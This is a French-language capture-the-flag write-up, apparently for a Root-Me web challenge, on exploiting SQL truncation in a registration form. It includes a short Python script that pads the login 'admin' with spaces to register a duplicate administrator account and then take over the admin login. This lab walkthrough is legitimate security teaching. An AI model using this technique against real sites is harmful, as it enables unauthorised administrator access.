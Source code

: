Dans un premier temps, on va s’essayer à comprendre l’exploitation de la faille en se documentant sur cette dernière et en s’amusant sur les différents inputs.

Au niveau de la page register.php, si l’on essaye :
```
login = "admin"
password = "staycalm2phi"
User already in DB or password too short (8 chars min)
```
On comprend vite qu’un utilisateur nommé "admin" existe déjà en essayant de l’inscrire sur le site.
```
login = "admin "
password = "staycalm2phi"
User already in DB or password too short (8 chars min)
```
On a l’impression que SQL tronque les espaces et ne les prend pas en compte.
```
login =  "admin 2phi"
password  = "staycalm2phi"
User saved
```
Bingo  😄 . Comment exploiter cela ?
Une information importante sur le schéma de base de données réside dans le code de la page :
```
CREATE TABLE IF NOT EXISTS USER(  
    id INT NOT NULL AUTO_INCREMENT,
    login VARCHAR(12),
    password CHAR(32),
    PRIMARY KEY (id)
);
```

Ici l’on peut voir que le login n’accepte que 12 caractères. L’objectif est d’insérer assez d’espace pour que la chaîne du login saisie par l’utilisateur ne soit pas directement égale à "admin" mais qu’elle le devienne après la "truncation" effectuée par SQL lors du dépassement de la taille maximum allouée à un attribut.

La chaîne admin fait 5 caractères, il suffit d’y ajouter 7 caractères vides ainsi que notre suffixe afin de tronquer la fin de la chaîne lors de la création de notre utilisateur et d’insérer un autre admin dans la base de données.

En quelques lignes de code :
```
import requests
 
suffixe = "2phi"
padding = "  " * 7
data = {"login":"admin" + padding + suffixe, "password":"censuré"}
r = requests.post("http://challenge01.root-me.org/web-serveur/ch36/register.php", data)
```


Il suffisait ensuite de se rendre sur la page admin.php et de tenter de se connecter avec le password indiqué dans le code.
